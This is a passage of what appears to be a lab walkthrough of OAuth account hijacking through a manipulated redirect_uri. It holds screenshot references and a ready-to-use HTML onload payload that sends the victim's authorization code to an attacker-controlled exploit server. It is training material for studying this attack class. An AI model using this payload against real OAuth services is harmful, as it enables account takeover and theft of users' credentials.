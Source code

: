![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">
